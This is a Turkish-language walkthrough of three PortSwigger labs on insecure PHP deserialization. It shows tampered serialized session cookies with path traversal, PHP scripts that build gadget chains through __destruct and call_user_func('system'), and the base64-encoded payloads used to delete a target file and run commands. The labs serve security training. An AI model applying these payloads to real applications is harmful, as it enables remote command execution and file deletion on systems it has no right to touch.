









# 0x0D | Deserialization Exploitation

Herkese merhaba, bugünkü yazımızda PortSwigger lab’larının çözümü ile ilgileneceğiz. Aldığımız bu eğitimde Deserialization Zafiyetleri ile ilgili lab ortamlarına bakılmaktadır ve bunların çözümüne ulaşılmaktadır. Eğitime ulaşmak isterseniz kaynaklar kısmına gidebilirsiniz.

# Lab: Using application functionality to exploit insecure deserialization



Lab ortamına erişim sağladıktan sonra bize verilen giriş bilgilerini kullanarak sisteme giriyoruz. Username: `wiener`, password: `peter`

Sisteme giriş yaptıktan sonra yeni özellikler eklendiğini görebiliriz. Burada resim vb. gibi dosyalar eklediğimizde bununla ilgili bilgileri session’da tutacağından dolayı bize yeni bir cookie atayacaktır.



Örneğin burada sisteme yeni bir görsel eklemeye çalışalım. 


Burada yaşanan trafiği incelediğimizde session objemizi bu şekilde görebiliriz.



```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"h4bakeq82z855rhm8irjilypsy2ee4t7";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Yukarıda da görüldüğü üzere session objemizde istediğimiz değişiklikleri yapabilir durumdayız. Bu yüzden lab ortamının bizden istediği görevi yerine getirmek üzere ilgili işlemlerimize devam ediyoruz. Burada öncelikle bir silme işlemini gerçekleştirmeye başlıyoruz ve bu sırada burpsuite ile `‘intercept on’` yani trafiği yakalayıp durdurma özelliği ile ilgili kısımları değiştirmeye başlıyoruz. 



Burada karşımıza çıkan ilk istekte bulunan session objesini aşağıdaki gibi değiştiriyoruz. Bunu yapma sebebimiz en üst dizine giderek buradaki home klasöründe carlos kullanıcısına ait bir txt dosyasını silmektir. Burada değiştirdiğimiz yeni ifadenin uzunluğunu da güncellemeyi unutmamalıyırz. Bizim yaptığımız senaryoya göre uzunluğumuz 52 birim olarak değişmiş durumda.  Bu şekilde güncellediğimizde artık program burada belirttiğimiz dosyayı silecektir. 

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"h4bakeq82z855rhm8irjilypsy2ee4t7";s:11:"avatar_link";s:52:"../../../../../../../../../../home/carlos/morale.txt";}
```



İlgili session objemizi düzenledikten sonra tekrar base64 encode ve url encode işlemlerine tabi tutarak programın istediği şekilde kendisine gönderiyoruz. Ve sonuç istediğimiz gibi oluyor. 



Ve lab çözülmüş oldu.


# Lab: Arbitrary object injection in PHP and Property Oriented Programming

Bir önceki yazıda Property Oriented Programming konusunu ele almıştık. Bu lab içerisinde de aynı konulara değineceğimiz bir çalışma yürüteceğiz. 


Öncelikle hesabımıza giriş yapıp sayfa kaynağını inceleyelim. Buradaki lab’da da yine morale.txt dosyasını silmemiz istenmektedir. Session bilgisi deserialize edilirken oluşturulan bir objesi bulunmaktadır. Bunun User isimli bir sınıfı bulunmaktadır. Ve bu sınıfta da `$name` isimli bir property bulunmaktadır. Ve bu kaynak kod içerisinde başka bir sınıfın destruct metodunun yapacağı işi yani session bilgisini hafızadan silen bir işlemin bulunması gerekmektedir. 

Dolayısıyla bu yapıların detayını öğrenebilmek için öncelikle kaynak kodu bulmalıyız. Öncelikle sistemin sayfa kaynağı kodunu Ctrl+U ile incelediğimizde en alt kısımda bir ipucu görmekteyiz. 

```php
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```


Bu ipucunu kullanarak ilgili dizine gittiğimizde kaynak kodu okuyabildiğimizi görüyoruz. 



Burada bahsettiğimiz gibi bir senaryo olduğunu görüyoruz. `CustomTemplate` sınıfını çağırırsak bizim için yeterli olacaktır. Session objemizi incelediğimizde bu şekilde olduğunu görmekteyiz;

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"syr3gz1bmse9kg6obvf2ppno1tx272tp";}
```


Eriştiğimiz kaynak kodlardaki kodu temel olarak kullanarak ilerleyebiliriz. 

```php
<?php
/*
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hswyhm8a08j9hw5s4jw6qm00v58dlwro";}
*/
class CustomTemplate {
    var $template_file_path;
    var $lock_file_path;

    function __destruct() {
        // Carlos thought this would be a good idea
        //if (file_exists($this->lock_file_path)) {
        //     unlink($this->lock_file_path);
        // }
        //echo $this->lock_file_path;
    }
}

class User{
    var $username;
    var $access_token;
}

$object = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"syr3gz1bmse9kg6obvf2ppno1tx272tp";}';

$payload = new User;
$payload->access_token = 'syr3gz1bmse9kg6obvf2ppno1tx272tp';
$payload->username = new CustomTemplate();
$payload->username->lock_file_path = "../../../../../../../../../../../../../../../../../../../home/carlos/morale.txt";
$payload->username->template_file_path = "test.txt";

echo urlencode(
    base64_encode(
        serialize($payload->username)
    )
    );

?>
```

Bu kod sayesinde elde ettiğimiz çıktıyı uygulamamızda kullanabiliriz. 

```php
Output:
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czo4OiJ0ZXN0LnR4dCI7czoxNDoibG9ja19maWxlX3BhdGgiO3M6Nzk6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D
```

Bu şekilde yeni session objemizi gönderince lab’ı başarıyla çözmüş oluyoruz. 


# Lab: Developing a custom gadget chain for PHP deserialization



Bu lab ortamında da tekrar kaynak koda erişip hangi sınıfların ve hangi fonksiyonların olduğunu tespit etmeliyiz. Burada da kaynak kodu bulmak için sisteme giriş yaptıktan sonra sayfa kaynağını görüntüleyip ipucumuza bakarak ilerliyoruz. 

```php
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```


Burpsuite ile bu dizine giderek kaynak kodu okuyoruz. 


Kodu baştan sona okuduğumuzda hedefimizin bu kısım olduğunu anlıyoruz:

```php
class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
```

Bu kısımda kullanılan `‘call_user_func’` fonksiyonuna verdiğiniz string değer çalıştırılabilir hale gelmektedir. Yani işletim sisteminde komut çalıştırabilir hale gelirsiniz. Örneğin bir deneme yapacak olursak aşağıdaki kodun çalıştığını görebiliriz;

```php
call_user_func('system','id')
```

Output:

```php
uid=1000(ilker) gid=984(users) groups=984(users),108(vboxusers),150(wireshark),960(libvirt),961(docker),992(kvm),998(wheel)
```


Burada kaynak kodu incelediğimizde **`build_product`** fonksiyonu Deserialization zafiyeti potansiyeli taşıyan bir kısım içeriyor. **`__wakeup`** metodunda çağrıldığı için, bu fonksiyonun işleyişi kontrolsüz bir şekilde yeniden başlatılabilir ve bu da güvenlik riski oluşturabilir.

**`build_product`** fonksiyonu, **`Product`** sınıfını oluştururken **`$this->desc`** özelliğini kullanıyor. Bu, **`$desc`** özelliğinin serialize edilen veriden geri dönüştürülerek kullanılmasına olanak tanır. Eğer serialize edilen veri manipüle edilirse ve bu manipülasyon, **`__wakeup`** ve **`__sleep`** metodlarını etkilerse, **`build_product`** fonksiyonu beklenmeyen sonuçlar üretebilir.

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("system");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type; // $DefaultMap->id
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate('id');
echo serialize($test);

```

```php
php gadget.php //kodumuzu çalıştırıyoruz.
```

Output:

```php
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:2:"id";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:6:"system";}}
```

Artık bu sayede uzaktan kod çalıştırabildiğimizi görebiliyoruz. Bu kısımdan sonra bizden istenen görevi yerine getirerek Carlos kullanıcısının dizininde bulunan `morale.txt` dosyasını silmeliyiz.

Dolayısıyla elde ettiğimiz bu Session objesini url encode ve base64 encode işlemlerinden geçirdikten sonra sisteme vermeliyiz. Bu değeri sisteme verdikten sonra bu şekilde bir hata ile karşılaşıyoruz. Burada id komutu çalışıyor olabilir ancak komutunu görmüyor olabiliriz. 



Bizden istenen şey `morale.txt` dosyasının silinmesi olduğu için id değeri yerine bu dosyanın yolunu veriyoruz, ayrıca system ifadesi yerine de unlink kullanmalıyız. Güncel kodumuz aşağıdaki gibidir;

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("unlink");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type; // $DefaultMap->id
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate('../../../../../../../../../../../../../../../home/carlos/morale.txt');

echo urlencode(
    base64_encode(
        serialize($test)
    )
    );
```

```php
php gadget.php
```

Output:

```php
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czo2NzoiLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czoyMDoiAEN1c3RvbVRlbXBsYXRlAGRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6MjA6IgBEZWZhdWx0TWFwAGNhbGxiYWNrIjtzOjY6InVubGluayI7fX0%3D
```

Elde ettiğimiz yeni session bilgisini sistemde kullanınca hedefe ulaşıyoruz.

Ve lab çözülmüş oldu…


# KAYNAKLAR:

1. [https://www.youtube.com/watch?v=kk43YwA6OFI](https://www.youtube.com/watch?v=kk43YwA6OFI&list=PLwP4ObPL5GY940XhCtAykxLxLEOKCu0nT)
2. [https://www.exploit-db.com/exploits/39838](https://www.exploit-db.com/exploits/39838)
3. [https://www.exploit-db.com/exploits/48761](https://www.exploit-db.com/exploits/48761)
4.
